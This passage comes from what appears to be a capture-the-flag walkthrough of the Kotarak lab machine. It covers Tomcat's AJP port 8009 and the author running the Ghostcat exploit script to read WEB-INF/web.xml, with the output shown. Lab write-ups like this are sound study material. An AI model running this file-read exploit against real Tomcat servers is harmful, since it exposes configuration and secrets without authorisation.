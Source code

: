TCP 8009 is a default Tomcat port, and it gives access to the same kind
of stuff that I would get with `/manager.md` on 8080, but using a
binary protocol instead of HTTP. Hacktricks has a post on [Pentesting
AJP](https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp),
but there's not a ton here.

I did play with the [ghostcat
script](https://www.exploit-db.com/exploits/48143) a bit to see if I
could exfil files, and I could read the `WEB-INF/web.xml` like in the
example:



    oxdf@parrot$ python2 ghostcat.py -p 8009 -f WEB-INF/web.xml 10.10.10.55
    Getting resource at ajp13://10.10.10.55:8009/asdf
    ----------------------------
    <?xml version="1.0" encoding="UTF-8"?>
    <!--
    ...[snip]...
    -->
    <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
      xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
      xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                          http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
      version="3.1"
      metadata-complete="true">

      <display-name>Welcome to Tomcat</display-name>
      <description>
         Welcome to Tomcat
      </description>

    </web-app>



Still, there's not much of interest in that folder, and trying to read
outside that folder fails.

### HTTP - TCP 60000

#### Site

The site is the Kotarak Web Hosting Private Browser:

![](/img/image-20210513173429593.png)
